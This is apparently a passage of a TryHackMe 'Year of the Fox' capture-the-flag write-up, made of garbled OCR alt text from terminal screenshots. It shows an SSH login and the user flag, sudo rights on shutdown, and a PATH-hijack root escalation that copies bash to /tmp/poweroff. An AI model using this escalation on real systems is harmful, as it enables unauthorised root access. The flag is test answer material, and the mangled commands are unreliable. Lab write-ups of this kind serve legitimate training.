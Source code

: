 alt="kaliS kali)- ssh foxmø. 10.198.1 2222 —p The authenticity of host &#39;[10.10.198.1]: 2222 ([10.10.198.1] :2222)&#39; can&#39;t be established. ED25519 key fingerprint is SHA256:ytuC6e5+2EwnZLeockeugHFQMcm1RWIKFJR/MF8JPJ0. This key is not known by any other names Are you sure you want to continue connecting (yes/no/[fingerprint])? yes warning: permanently added &#39;[10.10.198.1]: 2222 &#39; foxmø.1ø.198.1&#39;s password: (ED25519) to the list of known hosts. foxayear-of-the- fox : user-flag.txt samba foxayear-of-the- fox : —$ cat user -flag. txt THM{Njg3NWZhNDBjMmNIMzNkMGZmMDBhYjhk} foxövear-of-the- fox : —$ " />

<img src="year-of-the-fox/media/image16.png"
style="width:6.85833in;height:1.825in"
alt="sudo -l Matching Defaults entries for fox on year-of-the-fox: env_reset, mail_badpass User fox may run the following commands on year-of-the-fox: (root) NOPASSWD: /usr/sbin/shutdown 1 " />

<img src="year-of-the-fox/media/image17.png"
style="width:6.04167in;height:3.975in"
alt="foxayear-of-the-fox : /tmp$ foxayear-of -the-fox : /tmp$ system( &quot; poweroff&quot; ) ; return; &gt; &gt; power foxayear-of -the-fox : /tmp$ void main() { system( poweroff); return; foxayear-of -the-fox : /tmp$ foxayear-of -the- fox : /tmp$ foxayear-of-the- fox : /tmp$ foxä)year-of-the- fox : /tmp$ foxayear-of -the- fox : /tmp$ touch power echo &quot;void main() { cat power cp /bin/bash /tmp/poweroff cp /bin/bash /tmp/power chmod /tmp/power export sudo /usr/sbin/shutdown rootayear-of-the-fox : /tmp# id uid=ø(root) gid=ø(root) groups=ø(root) " />

a0274786e2a627078666d6467797046666766683b693232353a6968303

<img src="year-of-the-fox/media/image18.png"
style="width:0.15833in;height:0.15833in" />